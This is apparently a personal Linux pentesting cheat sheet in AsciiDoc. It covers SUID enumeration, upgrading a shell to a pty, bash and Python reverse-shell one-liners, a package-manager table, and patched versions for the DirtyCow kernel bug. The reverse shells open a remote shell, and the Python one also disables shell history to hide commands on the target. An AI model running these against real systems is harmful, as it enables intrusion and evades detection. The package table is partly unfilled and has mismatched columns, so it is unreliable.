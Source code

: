 === Linux
==== Find interesting things

   find / -perm /6000 -type f 2>/dev/null

SUID binaries

==== TTYs

  python -c 'import pty; pty.spawn("/bin/bash")'

Upgrade your current session to one with a pty.

==== Reverse Shells

===== Bash

  bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'

The first `bash` has to be bash, to get the tcp support used later on. The second `bash` could be any other shell or program.

===== Python

  python -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); \
  s.connect(("127.0.0.1", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); \
  os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash"); \
  s.close()'

This also sets up the tty from earlier and "nulls out" the path to the history file, so your commands aren't saved on the target.

<<<

==== Package Managers

|===
|Action |apt |dpkg |yum |rpm
|List
|->
|`dpkg -l`
|???  
|???

|Search available
|`apt-cache search P`
|_n/a_
|`yum search P`
|_n/a_

|Install
|`apt install P`
|`dpkg -i P.deb`
|`yum install P`
|???

|Remove
|`dpkg -P P`
|`apt remove P`
|???
|???

|Check for corruption
|???
|???
|???
|???


|===
==== Exploits
===== CVE-2016-5195 DirtyC0w

Patched in:

|===
|4.8.0-26.28 |Ubuntu 16.10
|4.4.0-45.66 |Ubuntu 16.04 LTS
|3.13.0-100.147 |Ubuntu 14.04 LTS
|3.2.0-113.155 |Ubuntu 12.04 LTS
|3.16.36-1+deb8u2 |Debian 8
|3.2.82-1 |Debian 7
|4.7.8-1 |Debian unstable
|===

<<<

